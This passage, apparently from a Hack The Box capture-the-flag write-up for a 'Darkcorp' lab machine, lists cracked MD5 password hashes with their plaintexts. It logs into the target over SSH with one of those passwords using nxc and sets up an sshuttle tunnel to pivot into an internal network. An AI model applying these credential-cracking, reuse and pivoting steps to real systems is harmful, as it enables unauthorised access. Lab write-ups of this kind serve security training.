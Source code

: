 and somes are crackable

| dc5484871bc95c4eab58032884be7225 | Unknown | Not found. |
| --- | --- | --- |
| cac1c7b0e7008d67b6db40c03e76b9c0 | md5 | victor1gustavo@# |
| 8bbd7f88841b4223ae63c8848969be86 | md5 | ThePlague61780 |

So our new creds i think ebelford `ThePlague61780` and victor.r : `victor1gustavo@#`;

Bom!!!

```bash
➜  darkcorp nxc ssh drip.htb -u ebelford -p 'ThePlague61780'
SSH         10.10.11.54     22     drip.htb         [*] SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3
SSH         10.10.11.54     22     drip.htb         [+] ebelford:ThePlague61780  Linux - Shell access!
```

we can directly access with ebelford on ssh

# Darkcorp.htb (domain)

### First proxy

i will put proxy with

```bash
sshuttle -r ebelford@drip.htb 172.16.20.3/24
```

and here is why

![alt text](../assets/images/darkcorp15.png)
